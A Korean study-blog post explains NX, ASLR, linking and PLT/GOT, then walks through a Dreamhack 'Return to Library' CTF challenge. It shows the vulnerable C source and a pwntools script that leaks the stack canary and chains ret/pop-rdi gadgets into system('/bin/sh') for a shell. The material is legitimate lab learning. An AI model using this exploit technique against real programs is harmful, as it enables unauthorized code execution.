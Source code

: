 ```yaml
---
title: NX, ASLR 학습
published: 2025-09-04
author: siaa
description: 'NX, ASLR, 라이브러리를 배우고 "Return to Library" 문제를 풀었어요'
image: ''
tags: ["Pwn"]
category: 'PWN'
draft: false
---
```

## 1. **NX** (No-eXexute)
   **정의**: 실행에 사용되는 메모리 영역과 쓰기에 사용되는 메모리 영역을 분리하는 보호기법

   **확인 방법**: `checksec`을 이용하면 **NX**가 적용되었는지 확인 가능

   즉, NX가 적용되었다면 직접 올린 셸코드를 사용할 수 없다.

## 2. **ASLR** (Addreaa Space Layout Randomization)
   **정의**: 바이너리가 실행 될 때마다 스택, 힙, 공유 라이브러리 등을 임의의 주소에 할당하는 보호 기법

   **특징**
       - main함수를 제외한 다른 영역의 주소는 실행할 때마다 변경됨 (PIE가 적용되지 않을 시)
       - libc_base 주소 하위 12 비트 값과 printf 주소 하위 12비트의 값은 항상 같음
       - 리눅스는 페이지 단위로 임의 주소에 매핑함, 12비트 이하로는 주소 변경이 안됨
       - libc_base와 printf, read 의 주소 차이는 항상 같음

## 3. **라이브러리**
   **정의**: 컴퓨터 시스템에서 함수나 변수를 공유해 사용할 수 있도록 함

   **장점**: 같은 함수를 반복적으로 정의할 필요가 없어 개발 효율이 높아짐

   C언어 표준 라이브러리로는 **libc**이 있으며 우분투에 탑제 되어있다.

## 4. **링크**
   **정의**: 컴파일의 마지막 단계

   **역할**: 심볼과 관련된 정보들을 찾아서 최종 파일에 기록하는 일을 함

   **종류**
       - 동적링크: 실행 파일이 작지만 실행 중 라이브러리가 필요하며, 실행 -> 메모리에 매핑 -> 함수 주소 찾기 -> 실행순으로 진행됨
       - 정적링크: 실행 파일이 크지만, 실행 속도가 빠르고 외부 라이브러리 필요 없음

## 5. **PLT**와 **GOT**
   **정의**: 라이브러리에서 동적 링크 된 심볼의 주소를 찾을 때 사용되는 테이블

   **runtime resolve**: 라이브러리 함수 호출 -> 라이브러리에서 심볼 탐색 -> 함수의 정의 발견 -> 그 주소로 실행 흐름 옮기는 과정

   **GOT**: resolve된 함수의 주소를 저장하는 테이블

   => 그러나 PLT에서 GOT를 참조하여 실행흐름을 옮길때 GOT값을 검증하지 않기에 GOT의 값을 임의로 변경하면 원하는 코드를 실행시킬 수 있다.

## 6. 푼문제
   NX, ASLR, 라이브러리를 배우고 "Return to Library" 문제를 풀었다.

   다음은 문제이다.
```c
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt'");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```
   7행을 보면 `const char* binsh = "/bin/sh";`가 있는데 이는 **"/bin/sh"**을 바이너리에 추가하기 위한 코드이다.

   16행을 보면 `system("echo 'system@plt'");`가 있는데 이는 **system 함수**를 PLT에 추가하기 위한 코드이다.

   **"/bin/sh"**의 주소와 **system 함수**의 주소를 알기에 rdi가 "/bin/sh"인 상태로 system함수를 호출하면 문제를 풀 수 있다.
   <br>

   GDB에서 `checksec`을 쳐서 카나리가 있는 것을 확인 했다.
   ```
   pwndbg> checksec
   File:     /home/siaa/dreamhack/Return_to_Library/rtl
   Arch:     amd64
   RELRO:      Partial RELRO
   Stack:      Canary found
   NX:         NX enabled
   PIE:        No PIE (0x400000)
   Stripped:   No
   ```
   <br>
   
   우선 카나리를 우회하기 위해 첫번째 입력에서 카나리를 얻었다.
   ```py
   from pwn import*
   p = process("./rtl")
   p.sendlineafter('Buf: ',b'A' * 56)
   k = p.recvuntil(b'\n')
   c = b'\x00' + p.recvn(7)
   print(c)
   ```
   <br>
   
   그리고 rdi값을 "/bin/sh"의 주소로 바꾸고 system함수를 호출했다.

   리턴 가젯을 사용하면 rdi를 pop한 후 "/bin/sh"주소로 바꾸고 system함수를 호출할 수 있다.

   이때 system 함수로 rip가 이동할 때는 항상 스택이 0x10단윌 정렬 되어있어야 한다.
   
   ```py
   from pwn import*
   p = process("./rtl")
   e = ELF('./rtl')

   # canary
   p.sendlineafter('Buf: ',b'A' * 56)
   k = p.recvuntil(b'\n')
   c = b'\x00' + p.recvn(7)
   print(c)
   a = b'\x00' * 56 + c + b'\x00' * 8

   # payload
   system_plt = e.plt['system']
   binsh = 0x400874 # /bin/sh 주소
   pop_rdi = 0x0000000000400853
   ret = 0x0000000000400596
   a = a + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system_plt)
   
   p.sendlineafter(b'Buf: ',a)
   p.interactive()
   ```
   이렇게 했더니 문제가 풀렸다.